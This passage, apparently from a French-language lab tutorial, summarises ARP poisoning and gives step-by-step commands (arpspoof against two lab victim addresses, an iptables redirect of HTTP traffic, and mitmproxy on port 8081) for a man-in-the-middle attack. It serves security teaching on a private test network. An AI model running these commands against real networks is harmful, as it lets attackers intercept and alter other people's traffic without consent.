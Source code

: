 Cela permet à l'attaquant de recevoir et de rediriger tout le trafic entre les deux victimes, créant ainsi une position Man-in-the-Middle.

#### Résumé

L'empoisonnement ARP est une méthode permettant à un attaquant d'intercepter et de rediriger le trafic réseau entre deux machines en envoyant des messages ARP falsifiés. Les commandes `arpspoof` sont utilisées pour tromper les machines victimes et rediriger leur trafic vers l'attaquant, permettant ainsi à l'attaquant de surveiller et potentiellement modifier les communications entre les victimes.


# Annexe 3 - manipulation supplémentaire: 

### Utilisation d'un Port Alternatif pour mitmproxy

Installez Apache sur le port 80 et que vous souhaitez utiliser mitmproxy, vous devez choisir un autre port pour mitmproxy. Par exemple, vous pouvez utiliser le port 8081.

Voici comment configurer et exécuter l'attaque Man-in-the-Middle (MITM) avec mitmproxy écoutant sur le port 8081 :

#### Étapes à Suivre

1. **Empoisonner les Tables ARP**

   **Empoisonner la Table ARP de Victim1**
   ```sh
   sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
   ```

   **Empoisonner la Table ARP de Victim2**
   ```sh
   sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20
   ```

2. **Redirection du Trafic HTTP avec iptables**

   Utilisez le port 8081 pour mitmproxy au lieu du port 8080 :
   ```sh
   sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-port 8081
   ```

3. **Lancer mitmproxy sur le port 8081**

   - **Lancer mitmproxy** :
     ```sh
     sudo mitmproxy -p 8081
     ```

   - **Lancer mitmweb** (alternative avec interface web) :
     ```sh
     sudo mitmweb -p 8081
     ```

4. **Accéder à l'interface web de mitmweb**

   Si vous utilisez `mitmweb`, ouvrez un navigateur et allez à `http://localhost:8081` pour accéder à l'interface web de mitmweb.
